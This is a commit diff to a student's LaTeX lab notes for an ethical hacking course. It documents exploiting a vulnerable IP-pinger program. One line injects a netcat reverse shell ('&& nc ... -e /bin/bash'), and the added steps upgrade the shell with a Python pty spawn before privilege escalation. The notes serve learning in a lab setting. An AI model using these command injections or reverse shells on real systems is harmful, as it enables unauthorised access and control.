

Before and after one commit to ThomasBoxall/uni-notes, a LaTeX document (01-L5/M30239-EHACK/M30239-EHACK.tex, which reads 01-L5/M30239-EHACK/pages/2024-02-08.tex): part of page 16 of 33, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
finish exploitation concepts lab notes

```diff
--- a/01-L5/M30239-EHACK/pages/2024-02-08.tex
+++ b/01-L5/M30239-EHACK/pages/2024-02-08.tex
@@ -48,4 +48,19 @@ Then on the server we launch the Vulnerable IP Pinger program and connect to our
     python3 IP-pinger.py 8.8.8.8 && nc 192.168.1.1 4443 -e /bin/bash
 \end{verbatim}
 
-TBC
+Once we are into a reverse shell, we can make our lives a bit nicer - especially if we are going to be working in this environment for a while. The first step of this is to run the Bash command below to check if Python is running.
+\begin{verbatim}
+    which python python3
+\end{verbatim}
+The output from this will tell us which version is installed, if either and from there amend the following command as required to allow us to spawn a Bash shell
+\begin{verbatim}
+    python3 -c 'import pty;pty.spawn("/bin/bash")'
+\end{verbatim}
+
+We can then run the two subsequent Bash commands which make the terminal environment more user friendly
+\begin{verbatim}
+    export SHELL=bash
+    export TERM=xterm-256color
+\end{verbatim}
+
+From here we can work through privilege escalation and aim to gain root access, or access to whatever other system we are attempting to get into.
```
Also changed, not shown: 01-L5/M30239-EHACK/M30239-EHACK.pdf.
